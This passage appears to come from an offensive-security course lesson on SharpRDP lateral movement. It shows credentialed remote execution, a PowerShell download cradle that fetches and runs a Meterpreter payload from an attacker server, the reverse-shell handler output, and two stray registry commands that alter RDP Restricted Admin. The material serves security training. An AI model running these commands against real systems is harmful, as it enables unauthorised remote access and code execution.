 _SharpRDP_[2](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_534-2),[3](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_534-3) is a C# application that uses the non-scriptable interfaces exposed by mstscax.dll to perform authentication in the same way as mstsc.exe.

Once authentication is performed, SharpRDP allows us to execute code through _SendKeys_.[4](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_534-4) In this manner, no GUI access is required and setting up a reverse tunnel is unnecessary.

To demonstrate this, we'll use the pre-compiled version of SharpRDP located in C:\Tools. We'll specify the computername, username, and password along with the command to be executed. In this example, we'll simply execute Notepad.

```
C:\Tools> SharpRDP.exe computername=appsrv01 command=notepad username=corp1\dave password=lab
[-] Logon Error           :  -2 - ARBITRATION_CODE_CONTINUE_LOGON
[+] Connected to          :  appsrv01
[+] User not currently logged in, creating new session
[+] Execution priv type   :  non-elevated
[+] Executing notepad
[+] Disconnecting from    :  appsrv01
[+] Connection closed     :  appsrv01
```

> Listing 20 - Spawning Notepad with SharpRDP

Since this is not terribly useful, we'll extend this example to obtain a reverse Meterpreter shell. First, we'll generate a Meterpreter executable and place it in our Apache server web root, then we'll set up msfconsole to catch the shell.

Finally, we'll use SharpRDP to execute a PowerShell download cradle on appsrv01 that pulls the Meterpreter executable and subsequently executes it with stacked commands:

```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
[-] Logon Error           :  -2 - ARBITRATION_CODE_CONTINUE_LOGON
[+] Connected to          :  appsrv01
[+] User not currently logged in, creating new session
[+] Execution priv type   :  non-elevated
[+] Executing powershell (new-object system.net.webclient).downloadfile('http://192.168.119.120/met.exe', 'c:\windows\tasks\met.exe'); c:\windows\tasks\met.exe
[+] Disconnecting from    :  appsrv01
[+] Connection closed     :  appsrv01
```

> Listing 21 - Spawning a reverse Meterpreter shell through SharpRDP

This results in a Meterpreter shell on our Kali machine as displayed in Listing 22:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://192.168.119.120:443
[*] http://192.168.119.120:443 handling request from 192.168.120.6; (UUID: nwv7gu7a) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.6:52261)
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit